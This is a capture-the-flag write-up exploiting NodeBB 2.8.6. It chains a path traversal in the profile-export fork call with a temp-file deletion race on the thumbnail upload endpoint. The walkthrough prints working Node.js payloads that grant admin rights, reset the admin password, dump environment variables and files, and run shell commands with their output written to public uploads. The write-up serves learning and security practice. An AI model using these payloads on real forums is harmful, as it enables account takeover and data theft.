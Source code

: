 # Is 10.0 really 10.0?

We are presented with a website on `http://your-instance-ip:10008` refered to as `http://tdc.ctf:10008`.

The website is version 2.8.6 of [NodeBB](https://nodebb.org/), a forum software.

A quick google search reveals the first vulnerability <https://github.com/advisories/GHSA-vh2g-6c4x-5hmp> but with no exploit readily available.

By cloning the repo and browsing the source at the specific patch commit `ec58700f6dff8e5b4af1544f6205ec362b593092` we can investigate the vulnerability.

We notice the changes in `src/api/users.js` and `src/socket.io/user/profile.js` specifically remove the ability to control the path to a `child_process.fork` call:

```js
const child = require('child_process').fork(`./src/user/jobs/export-${type}.js`, [], {
    env: process.env,
});
```

This allows us to run any node script in the context of the server somehow, to actually perform the exploit you need to send the API request over an authenicate websocket connection, and since the actual protocol used is wrapped by Socket.IO the easiest way to interact with it is in your browser, while being logged in.

So created a user `test` with the password `supertest` we now are able to send the following request using devtools.

```js
window.socket.emit('user.exportProfile', { uid: 2, type: '<path traversal here>' })
```

Note the incremental UID here.

Now we just need to find a way to upload our exploit script to the server, which is easier said than done.

The `test` user we created is not an administrator, and the only way to upload anything to the server requires elevated permissions inside the BB system, we as a normal user are limited to certain image formats.

Initially i attempted to craft a polyglot image, since the primary file upload endpoint provided to our test user only accepted images, but it primarly checked the mimetype before performing any checks so we could in theory bypass both the image parser and the mimetype check by crafting a polyglot image.

But the secondary hint given to us in this challenge comes in the form of the ability to see a file listing of the `tmp` directory on the server, which initially contains some non-suspecting nodejs artifacts with little use to us.

What we need is a way to upload a file to the server with the correct extension, and use the provided `/assets/vendor/exploithelp/tryharder.txt` endpoint to retrieve the file name and path.

If we pay attention to the primary file uploading middleware, the one which handles the creation and deletion of the temporary files we see something peculiar:

```js
try {
    const images = [];
    for (const fileObj of files) {
        /* eslint-disable no-await-in-loop */
        images.push(await filesIterator(fileObj));
    }

    helpers.formatApiResponse(200, res, { images });

    return images;
} catch (err) {
    return helpers.formatApiResponse(500, res, err);
} finally {
    deleteTempFiles(files);
}
```

> <https://github.com/NodeBB/NodeBB/blob/7ca37bd6c3b6c39cb40c34b5e9ac1824580e6281/src/controllers/uploads.js#L47>

The `deleteTempFiles` function will always be called no matter which return block is hit, and it will attempt to delete the files provided to it.

What we can do is find a upload endpoint that lets us upload a file with a custom extension as many times as possible until the ratelimiting kicks in, and then we will see something interesting happening:

The `/api/v3/topics/<uuid>/thumbs` endpoint is probably our best bet due to the fact it has the least strict validation middleware, and it has a higher ratelimit than the other endpoints. We can perform the first (valid) upload with a valid image, then we can manually extract the UUID, Cookie and other request headers from the request to be used in our spamming script.

![Alt text](2.png)

> See [this python file](spam_upload.py) for the code.

![Alt text](1.png)

Lots of javascript files suddenly appeared!?

That definitely isn't what the code attempted to do, but it is a result of JavaScripts interesting behavior with regards to asynchronous code.

Digging deeper into the NodeBB codebase we find a shell executable called `nodebb` that performs certain database actions easily for us, at this point in the process i am not sure where i'll find the flag, so we an use this tool to give us additional permissions on the server such as changing the password for the `admin` user with UID 1.

It is also possible to set up a reverse shell from this point on, but i opted to just give myself admin permissions and dump some additional info from the disk in my first attempt.

```js
const fs = require('fs');
const child_process = require('child_process');

// Run node /usr/src/app/nodebb user make admin 2

child_process.execSync('node /usr/src/app/nodebb user make admin 2');
child_process.execSync('node /usr/src/app/nodebb user reset 1 --password superadmin');

const result = {};

result.env = process.env;

function read_directory_and_files(path, filePattern) {
    const files = fs.readdirSync(path).filter(file => file.match(filePattern));

    const result = {};

    for (const file of files) {
        result[file] = fs.readFileSync(path + file, 'utf8');
    }

    return result;
}

const dirs = [
    '/',
    '/usr/src',
    '/usr/src/app',
];

for (const dir of dirs) {
    result[dir] = [
        read_directory_and_files(dir, /.*\.txt/),
        read_directory_and_files(dir, /.*flag.*/),
    ];
}

fs.writeFileSync('/usr/src/app/public/uploads/files/HACKED.txt', JSON.stringify(result));
```

> Initial payload, writing output to a publically accessible file.

Before constructing this payload, i had obviously experimented quite a lot with my own local instance, but when i invoked the exploit via. the websocket connection i was greeted by this empty HACKED.txt:

```json
{
    "env": {
        "NODE_VERSION": "18.14.0",
        "HOSTNAME": "766caac60fb2",
        "YARN_VERSION": "1.22.19",
        "daemon": "false",
        "HOME": "/home/node",
        "PATH": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        "PWD": "/usr/src/app",
        "NODE_ENV": "production",
        "silent": "false",
        "CONFIG": "/usr/src/app/config.json",
        "isPrimary": "true",
        "isCluster": "false",
        "port": "4567",
        "VIPSHOME": "/target"
    },
    "/": [
        {},
        {}
    ],
    "/usr/src": [
    {},
    
    ],
    "/usr/src/app": [
        {},
        {}
    ]
}
```

Certainly not very reassuring, but now we have changed the password for the `admin` user, so we can log in and see if we can find anything interesting.

![Alt text](3.png)

I decide to upload additional payloads using this general format instead of again setting up a revshell to explore the system, where we quickly find the flag in the unconventional `/home/node/flag.txt` location.

```js
const fs = require('fs');
const child_process = require('child_process');

const { exec } = child_process;

function runcommandandputoutputinpublic(command) {
    exec(command, (err, stdout, stderr) => {
        if (err) {
            console.log(err);
        }
        
        const result = {
            stdout,
            stderr
        };

        // Write to /usr/src/app/public/uploads/files/output.json

        fs.writeFileSync('/usr/src/app/public/uploads/files/output.json', JSON.stringify(result, null, 4));
    });
}

runcommandandputoutputinpublic('cat /home/node/flag.txt');
```

Where we finally get to find the flag :)

![Flag :O](4.png)

While i was not able to complete this in time for the CTF, it was a really interesting challenge with a lot of potential, even without our trusty `ls.sh`.

```sh
while true
do
	ls -al /tmp > /usr/src/app/public/vendor/exploithelp/tryharder.txt
	sleep 2
done
```

> ls.sh